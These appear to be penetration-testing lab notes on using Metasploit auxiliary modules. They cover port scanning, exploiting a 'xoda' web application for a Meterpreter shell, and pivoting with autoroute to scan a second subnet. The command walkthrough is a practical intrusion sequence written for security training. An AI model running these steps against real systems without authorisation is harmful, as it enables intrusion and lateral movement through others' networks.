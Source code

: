 # iii - Enumeration

### **Auxiliary Modules**

* Auxiliary modules are used to perform functionality like scanning, discovery and fuzzing.
* We can use auxiliary modules to perform both TCP & UDP port scanning as well as enumerating information from services like FTP, SSH, HTTP, etc.
* Auxiliary modules can be used during the information gathering phase of a penetration test as well as during the post exploitation phase.
* We can also use auxiliary modules to discover hosts and perform port scanning on a different network subnet after we have obtained initial access on a target system.

### **Lab Infrastructure**

* Our objective is to utilize auxiliary modules to discover open ports on our first target?
* The next step will involve exploiting the service running on the target in order to obtain a foothold.
* We will then utilize our foothold to access other systems on a different network subnet (pivoting).
* We will then utilize auxiliary modules to scan of open ports on the second target.

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

## **Practical Demonstration**

```bash
# systemctl start postgresql && msfconsole
db_status # check if postgresql db is running.
workspace -a port_scan # create a new workspace for this session.
search portscan # search for the portscan auxiliary module or you can use the "db_nmap".
use 5 # select the tcp portscan.
set RHOSTS $ip
set PORTS 1-10000 # ports range
run

# in this case we just have a cmd line access, so we cant use a browser to view the web server, but we can use "curl" utility instead.
curl <targetIP> #Download the webpage (if the host is hosting one).

# we discovered the web server is running "xoda"
msf5 > search xoda 
msf5 > use 0
options
set RHOSTS $ip
set TARGETURI / # setting the URI to the root.
exploit # we get a meterpreter session.
sysinfo

# Now we want to scan the 2nd victim pc's ports, so we need to find out the private network ip addr (subnet) that the target victim pc is a part of.
shell # inorder to do that, we spawn a shell session.
/bin/bash -i # get a bash shell.
ifconfig # we saw another ip subnet on interface (eth1).
ctrl + z # exit the shell session, take note of the ip addr.

# back to our meterpreter session.
# we can add a route to the victim2 ip subnet from our meterpreter session.
# run autoroute -s 192.113.124.2 --> we just add a route to the target host PC.
msf5 > run autoroute -s <subnetTargetIP> #Route the traffic to the subnet's target IP address of the first target previously exploited

background # put the running session in background.
sessions # view current sessions.

# search portscan
use 5
set RHOSTS $ip_victim2 # because we already added a route to this network, we are simply performing the scan through "Victim1" PC.
run
# we can now scan other subnets on a network.

search udp-sweep # a module for udp scans.
use 0
set RHOSTS $ip_victim1 or $ip_victim2
```



